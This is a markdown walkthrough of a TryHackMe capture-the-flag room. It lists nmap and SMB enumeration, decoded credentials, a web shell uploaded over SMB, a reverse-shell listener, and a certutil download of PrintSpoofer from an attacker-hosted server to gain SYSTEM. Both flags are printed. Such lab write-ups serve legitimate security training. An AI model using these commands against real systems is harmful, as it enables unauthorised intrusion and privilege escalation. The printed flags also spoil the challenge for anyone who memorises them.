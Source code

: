 
# TryHackMe - Relevant Walkthrough

## 🔎 Nmap Scan

```bash
nmap -sC -sV -p- $target
```

### Open Ports

- **80, 49663** → Microsoft IIS 10.0
- **135, 139, 445, 49666, 49667** → MS RPC & SMB
- **3389** → RDP
- **Vulnerable Service**: SMBv1 (CVE-2017-0143 / MS17-010)

```bash
nmap -p 445 --script smb-vuln-ms17-010 $target
```

---

## 📁 Enumerate SMB

```bash
smbclient -L //$target/ -N
```

### Shares Found:
- `ADMIN$`
- `C$`
- `IPC$`
- `nt4wrksv` ✅

```bash
smbclient \\$target\nt4wrksv
smb: \> get passwords.txt
```

### Decoded Passwords:

```bash
echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw==' | base64 -d
# Bob - !P@$$W0rD!123

echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d
# Bill - Juw4nnaM4n420696969!$$$
```

---

## ⚡ Gaining Access (Initial Shell)

### Upload Web Shell via SMB:

```bash
smbclient \\$target\nt4wrksv
smb: \> put shell.aspx
```

### Execute Shell:

```url
http://$target:49663/nt4wrksv/shell.aspx
```

### Get Reverse Shell:
Set up a listener:

```bash
nc -lvnp 4444
```

### Retrieve `user.txt`:
Found at `C:\Users\Bob\Desktop\user.txt`

```
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```

---

## 🧨 Privilege Escalation via PrintSpoofer

### Step 1: Download on Kali

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
python3 -m http.server 80
```

### Step 2: Download on Victim

```cmd
certutil -urlcache -split -f http://10.21.183.238/PrintSpoofer64.exe PrintSpoofer64.exe
```

### Step 3: Exploit for SYSTEM Access

```cmd
PrintSpoofer64.exe -i -c cmd
```

### Step 4: Retrieve `root.txt`

Found at: `C:\Users\Administrator\Desktop\root.txt`

```
THM{1fk5kf469devly1gl320zafgl345pv}
```

---

## ✅ Flags Summary

| Flag       | Value                                  |
|------------|----------------------------------------|
| `user.txt` | `THM{fdk4ka34vk346ksxfr21tg789ktf45}`  |
| `root.txt` | `THM{1fk5kf469devly1gl320zafgl345pv}`  |

---

## 🔚 Box Complete!
